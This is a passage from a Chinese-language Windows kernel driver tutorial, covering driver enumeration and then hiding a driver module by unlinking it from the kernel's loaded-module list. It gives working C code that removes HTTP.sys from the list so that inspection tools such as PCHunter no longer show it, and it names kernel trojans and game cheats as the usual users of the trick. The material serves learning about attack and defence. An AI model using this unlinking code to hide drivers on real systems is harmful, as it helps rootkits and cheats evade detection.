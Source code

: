 加载驱动，观察输出内容，与PCHUNTER做对比，可以发现已经将全部驱动遍历出来了：（多一个因为吧空节点字符串也打印出来了，理应过滤掉）

![](winX86内核驱动开发/15.png)

# 驱动模块隐藏-断链

完成对驱动模块的遍历后，我们要开始搞事情了。在实际攻防对抗中，无论是外挂开发者或是内核木马开发者，为了让自己的驱动悄悄的运行起来，都会对自身的驱动模块做一些隐藏操作。使其自身无法被检测到。而断链就是一个古老但又有效的一个方法。无论你将来从事攻或防，了解一些老技术都是必不可少的。

## 断链1-HTTP.sys

断链练习不要乱找一个驱动就开始断链， 否则可能对系统造成影响，这里我们拿HTTP.sys做断链练习，理论上如果断链成功，PCHUNTER中应该看不到HTTP.sys驱动。代码如下：

```c
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath) {
    PKLDR_DATA_TABLE_ENTRY selfNode = DriverObject->DriverSection;
    PKLDR_DATA_TABLE_ENTRY preNode = selfNode;
 
    UNICODE_STRING httpName = { 0 };
    RtlInitUnicodeString(&httpName,L"HTTP.sys");
    do {
        if (preNode->BaseDllName.Length != 0     //过滤空字符串
            && RtlCompareUnicodeString(&preNode->BaseDllName,&httpName,TRUE) == 0) {
            DbgPrint("%wZ\r\n", &preNode->BaseDllName);
            RemoveEntryList(preNode);
            break;
        }
        preNode = preNode->InLoadOrderLinks.Flink;
    } while (preNode != selfNode);
    DriverObject->DriverUnload = UnloadDriver;
    return STATUS_SUCCESS;
}
```
